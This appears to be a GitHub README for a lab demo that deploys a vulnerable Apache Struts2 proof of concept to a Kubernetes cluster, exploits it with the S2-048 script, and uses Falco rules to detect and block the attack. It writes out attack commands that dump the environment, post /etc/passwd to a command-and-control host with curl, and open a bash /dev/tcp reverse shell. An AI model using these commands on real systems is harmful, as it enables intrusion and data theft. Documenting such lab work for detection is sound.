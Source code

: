 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did was make it work in EKS  

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## There are sometimes holes.
## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  

![image](https://user-images.githubusercontent.com/4404271/155650062-66a0d0e0-5091-4dd0-9eb9-cb125d21dddb.png)


`Here's a bit of a reminder to myself for how I did this:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  

kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
`struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m` 

First, on the cc server, start some simple web server such as: python3 webserver.py  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

`cd ~/apache-struts2-PoC`    
`python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'`  

...and we dump the environment to the CC server, not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  
  
OK that was fun, what else can we do? Curl?  

`python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080\hi_from_inside_the_container_in_our_cluster`  

I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! We can get granular enough to tell the difference between a curl POST and a curl GET that is awesome!  
So, this GET shows up on our little CC web server, and logs in Sysdig as a warning about curl, naughty, but I'll allow it, this time!  

OK now with our confidence sky high, through the roof, let's post the whole dang passwd file to our CC server here we go:  

`python exploitS2-048-cmd.py a31daafb811f24dc6b521914a12433e6-1984373561.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080`  

And believe me, that works! We see the passwd file appearing in our CC server.  
But we want to block it, easy enough, we simply enable a policy with a Falco rule to kill the container iif there is a curl POST  
And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times)  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's `python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'`

And let's watch the fun unfold:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

